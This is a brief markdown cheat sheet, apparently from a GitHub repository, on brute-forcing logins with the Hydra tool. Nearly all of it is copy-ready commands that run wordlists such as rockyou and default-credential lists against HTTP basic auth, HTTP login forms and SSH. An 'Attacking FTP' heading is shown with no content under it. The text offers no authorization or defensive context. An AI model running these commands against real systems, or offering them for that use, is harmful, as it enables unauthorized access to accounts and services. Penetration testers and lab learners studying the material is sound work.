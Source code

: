 # Brute Forcing using Hydra

In order to install it, type ``` sudo apt install hydra -y ``` or [download here](https://github.com/vanhauser-thc/thc-hydra)

## Attacking HTTP Basic Auth
For the purpose of attacking HTTP basic auth, type :
 ```
 hydra -L /opt/useful/SecLists/Usernames/Names/usernames.txt -p admin -u -f SERVER_IP -s SERVER_PORT http-get /

 ```
 or
 ```
 hydra -L /opt/useful/SecLists/Usernames/Names/usernames.txt -p /usr/share/SecLists/Passwords/Default-Credentials/default-passwords.txt -u -f SERVER_IP -s SERVER_PORT http-get /

 ```
 or in order to use the default credentials, type:
 ```
 hydra -C /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt  -f -u SERVER_IP -s SERVER_PORT http-get / -I
``` 


## Attacking HTTP Formulary

In order to attack some page wich contains form, you must use the **http-post-form** module of hydra. There's an example :
```
 sudo hydra -l admin -P /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt -f $ip -s $port http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"

```

## Attacking SSH 

In order to attack SSH service, open the terminal and type :
 
 ```
 hydra -L USERNAME_WORDLIST -P PASSWORD_WORDLIST -u -f ssh://IP_ADDRESS:PORT -t 4
 ```

## Attacking FTP
 

